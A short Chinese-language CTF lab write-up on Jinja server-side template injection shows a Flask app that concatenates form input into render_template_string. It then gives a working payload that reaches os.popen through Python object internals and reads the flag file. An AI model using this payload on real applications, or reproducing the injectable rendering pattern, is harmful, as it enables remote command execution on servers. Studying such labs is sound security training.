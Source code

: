 # LAB -  Jinja SSTI
###### tags: `資安` `Web`

## 題目解析
題目連進來可以看到輸入框跟 source code。

![](https://i.imgur.com/ZtEV4eu.png)

這是一個 flask 框架，source code 比較重點的部分就是會把我們輸入框的 name 內容直接 render 上 HTML
```python=
@app.get("/")
def home():
    return render_template_string("""
    <form method="POST">
        <input type="text" name="name" placeholder="Your name">
        <button>submit</button>
    </form>
    <p><a href="/source">Source code</a></p>
    """)
    
@app.post("/")
def welcome_message():
    name = request.form.get('name')
    return render_template_string("<p>Hello, " + name + "</p>")
```

## 解題流程

我們可以想辦法利用 python 的一些 magic function 逐步找到 os 模組，找到 os 模組就可以用 popen() 來開啟指令的 process 執行，再透過read() 就能把輸出讀回來。

```
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cd /; cat th1s_15_fl4ggggggg').read()}}
```
## FLAG 截圖
![](https://i.imgur.com/Y1K3pFT.png)

